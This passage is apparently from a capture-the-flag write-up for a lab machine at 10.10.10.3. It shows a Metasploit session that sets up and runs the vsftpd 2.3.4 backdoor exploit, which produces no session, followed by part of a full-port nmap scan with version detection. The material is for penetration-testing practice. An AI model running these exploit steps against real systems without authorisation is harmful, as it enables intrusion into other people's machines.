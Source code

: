 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
                                                                                           
msf6 > use 0                                                                               
[*] No payload configured, defaulting to cmd/unix/interact                                 
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options                   
                                                                                           
Module options (exploit/unix/ftp/vsftpd_234_backdoor):                                     
                                                                                                                                                                                      
   Name    Current Setting  Required  Description                                          
   ----    ---------------  --------  -----------                                          
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```

We do once again a scan with nmap but now using full-tcp:

```
$ sudo nmap -sV -sC -p- -oA nmap/lame-fulltcp 10.10.10.3           
[sudo] password for user: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 19:32 CET
Stats: 0:02:33 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.85% done; ETC: 19:35 (0:00:00 remaining)
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
```